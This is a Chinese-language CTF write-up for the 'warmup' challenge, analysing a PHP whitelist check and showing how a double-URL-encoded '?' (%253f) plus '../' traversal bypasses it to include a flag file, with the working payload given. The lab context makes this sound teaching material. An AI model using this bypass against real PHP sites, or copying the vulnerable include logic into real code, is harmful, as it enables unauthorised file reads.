

F12看源码，发现页面注释里提示源码在`source.php`。源码表示前往`hint.php`查看提示信息。

```php
            $whitelist = ["source"=>"source.php","hint"=>"hint.php"];
            if (! isset($page) || !is_string($page)) {
                echo "you can't see it";
                return false;
            }
```

结果显示`flag`内容在`ffffllllaaaagggg`。直接访问该文件，发现无法访问（当然没这么简单了）

```html
#http://8f796028-efd6-4f07-a469-abc51acc4959.node3.buuoj.cn/?file=hint.php
flag not here, and flag in ffffllllaaaagggg
```

再继续分析`source.php`，get的`file`参数要非空、为字符串且通过`checkFile()`函数判断，才能进入到`include`逻辑。

```php
if (! empty($_REQUEST['file'])
    && is_string($_REQUEST['file'])
    && emmm::checkFile($_REQUEST['file'])
   ) {
    include $_REQUEST['file'];
    exit;
} else {
    echo "<br>";
}  
```

那就来看`checkFile()`函数，该函数返回true的地方一共有3处。

首先定义了一个白名单。请求的文件名在白名单中即返回`true`，对应于之前提到的`source.php`和`hint.php`。显然这个逻辑无法被用来读取`flag`。

```php
$whitelist = ["source"=>"source.php","hint"=>"hint.php"];
if (! isset($page) || !is_string($page)) {
    echo "you can't see it";
    return false;
}

if (in_array($page, $whitelist)) {
    return true;
}
```

第二个逻辑中，参数首先被根据`?`字符进行截取，截取后的内容如果在白名单中则返回`true`。这个也无法被用来读取`flag`。

相关函数：[mb_strpos()](https://www.php.net/manual/zh/function.mb-strpos)、[mb_substr()](https://www.php.net/manual/zh/function.mb-substr)

```php
$_page = mb_substr(
    $page,
    0,
    mb_strpos($page . '?', '?')
);
if (in_array($_page, $whitelist)) {
	return true;
}
```

再看最后一个返回true的逻辑。发现其先将get请求中的file参数进行一次URL解码，然后再去截取`?`前的内容，判断是否在白名单内。同时，php在读取`$_REQUEST['file']`参数的时候，就会进行一次URL解码。所以，我们只需要在地址中加入`?`经过两次URL编码之后的内容`%253f`即可通过函数验证，并且使得参数在经过一次URL解码之后不含`?`，也就不会被当作其他get请求的参数。

```php
$_page = urldecode($page);
$_page = mb_substr(
    $_page,
    0,
	mb_strpos($_page . '?', '?')
);
if (in_array($_page, $whitelist)) {
	return true;
}
```

所以，可以构造payload。逐级添加`../`，找到`ffffllllaaaagggg`文件路径所在。

```html
?file=source.php%253f/../../../../ffffllllaaaagggg
```



最后结论：我一开始看到warmup几个大字，还以为直接F12，然后flag分为几段放在源码里...🤣🤣，pico入门题真是害人不浅啊。